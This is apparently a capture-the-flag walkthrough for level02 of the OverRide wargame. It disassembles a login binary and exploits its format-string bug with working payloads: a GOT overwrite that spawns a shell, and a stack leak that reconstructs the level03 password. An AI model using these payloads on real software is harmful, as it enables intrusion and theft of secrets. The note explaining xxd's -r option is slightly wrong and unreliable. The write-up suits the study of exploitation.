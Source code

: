 
```
level02@OverRide:~$ ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username:
```
```
<+245>:	lea    -0xa0(%rbp),%rax ==> result of reading "/home/users/level03/.pass" = the Flag
<+252>:	mov    $0x400bf5,%esi   ==> "\n"
<+257>:	mov    %rax,%rdi
<+260>:	callq  0x4006d0 <strcspn@plt>
```
```
strcspn() calculates the length of the number of characters before the 1st occurrence of character present in both the string
Parameters:
str1 : The Target string in which search has to be made.
str2 : Argument string containing characters to match in target string.
```
strcspn("PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv", "\n"). // the flag from level01

In this case, there is no occurrence of the newline character \n in the first string, so the function will return the length of the entire string, which is 40.
```
 <+260>:	callq  0x4006d0 <strcspn@plt>
 <+265>:	movb   $0x0,-0xa0(%rbp,%rax,1)
 <+273>:	cmpl   $0x29,-0xc(%rbp)       ===> ret fread() = -0xc(%rbp)
INTEL 
 <+265>:	mov    BYTE PTR [rbp+rax*1-0xa0],0x0
 <+273>:	cmp    DWORD PTR [rbp-0xc],0x29
```
```
rbp+rax*1-0xa0 = 0 ==> rbp-0xa0 + rax ==> *(rbp-0xa0 + rax) = 0 ==> buffer + rax ==> buffer[rax] = 0 
then compares the res of fread() to 41
```
```
if not equal; then 
  0x400bf8:	 "ERROR: failed to read password file\n"
  exit(1)
else jmp to <+361>

fclose(*File) // -0x8(%rbp)
```
```
the program really begins at <+373>
0x400c20:	 "===== [ Secure Access System v1.0 ] ====="
```
```
 <+431>:	mov    0x20087e(%rip),%rax        # 0x601248 <stdin@@GLIBC_2.2.5>
 <+438>:	mov    %rax,%rdx
 <+441>:	lea    -0x70(%rbp),%rax
 <+445>:	mov    $0x64,%esi
 <+450>:	mov    %rax,%rdi
 <+453>:	callq  0x4006f0 <fgets@plt>
```
```
<+453>: fgets Username from stdin and stores it at -0x70(%rbp)
<+523>:	fgets Username from stdin and stores it at -0x110(%rbp)

<+566>:	lea    -0x110(%rbp),%rcx ==> the PWD
<+573>:	lea    -0xa0(%rbp),%rax  ==> The Flag

<+591>:	callq  0x400670 <strncmp@plt>

strncmp(Flag, PWD, 0x29/41);

if jne    <main+642>
   printf(-0x70(%rbp) ) // username
   "username" does not have access!
   exit
else
  printf("Greetings, %s!\n", -0x70(%rbp)) // username
  system (/bin/sh)
```

Format String to overide the GOT

```
--[ Username: %p %p %p %p %p %p %p %p
--[ Password: AAAA
*****************************************
0x7fffffffe4c0 (nil) 0x41 0x2a2a2a2a2a2a2a2a 0x2a2a2a2a2a2a2a2a 0x7fffffffe6b8 0x1f7ff9a08 0x41414141
```

`(python -c 'print " %p " * 8 + "\n" + "AAAA"') | ./level02`

```
level02@OverRide:~$ (python -c 'print "%8$p" + "\n" + "AAAA"') | ./level02
0x41414141 does not have access!
```
```
x/s 0x601228
0x601228 <exit@got.plt>


----> 0x0000000000400a85 <+625>:	mov    edi,0x400d32 
      0x0000000000400a8a <+630>:	call   0x4006b0 <system@plt>

p 0x0000000000400a85 = 4196997
```

```
level02@OverRide:~$ (python -c 'print "%4196997p%8$n" + "\n" + "\x60\x12\x28"[::-1]' ; cat) | ./level02 > /dev/null
pwd 1>&2
/home/users/level02
cat /home/users/level03/.pass
cat /home/users/level03/.pass 1>&2
Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
```

**SECOND METHOD




```
(python -c 'print " %p " * 100 + "\n" + "AAAA"') | ./level02 | xargs -n 1 echo

...
0x756e505234376848
0x45414a3561733951
0x377a7143574e6758
0x354a35686e475873
...

The length of the flag string is 40 so we need 5 * 8 (16/2 hex len)

the value at the 26th position on the stack  
(python -c 'print "%26$p" + "\n" + "AAAA"') | ./level02
0x48336750664b394d

then lets reconstruct our flag

echo "0x756e505234376848" | xxd -r -p | rev
Hh74RPnu


0x756e505234376848 ==> Hh74RPnu
0x45414a3561733951 ==> Q9sa5JAE
0x377a7143574e6758 ==> XgNWCqz7
0x354a35686e475873 ==> sXGnh5J5
0x48336750664b394d ==> M9KfPg3H

Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H

--[ Username: user
--[ Password: Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
*****************************************
Greetings, user!
$ pwd
/home/users/level02
```

simplified script

```
level02@OverRide:~$ for ((i=1; i<=26; i++)); do (python -c "print '%$i\$p'" && echo) | ./level02 | grep 0x ; done

0x7fffffffe4c0 does not have access!
0x2a2a2a2a2a2a2a2a does not have access!
0x2a2a2a2a2a2a2a2a does not have access!
0x7fffffffe6b8 does not have access!
0x1f7ff9a08 does not have access!
0x100000000 does not have access!
0x756e505234376848 does not have access!
0x45414a3561733951 does not have access!
0x377a7143574e6758 does not have access!
0x354a35686e475873 does not have access!
0x48336750664b394d does not have access!
```

more simplistic syntax
```
(python -c 'print "%22$p %23$p %24$p %25$p %26$p" + "\n" + "AAAA"') | ./level02 | xargs -n 1 echo | tail -n 9 | head -n 5
```

********notes

echo "$i - %$i\$p": This command uses the echo command to print a string that includes the current value of i and a format specifier (%$i\$p) that specifies the position of the argument to be printed by the printf function. The $i syntax refers to the current value of the loop variable i, and the backslash before the $ character is used to escape it so that it is interpreted as a literal character.

echo "0x756e505234376848" | xxd -r -p
This will pipe the string "0x756e505234376848" to the xxd command, which will convert it from hex to binary format. The -r option tells xxd to reverse the conversion process (from binary back to hex), and the -p option tells xxd to read the input as plain hexadecimal digits (without any whitespace or other formatting). The resulting binary data is then piped to the echo command, which will print it to the console as ASCII text.





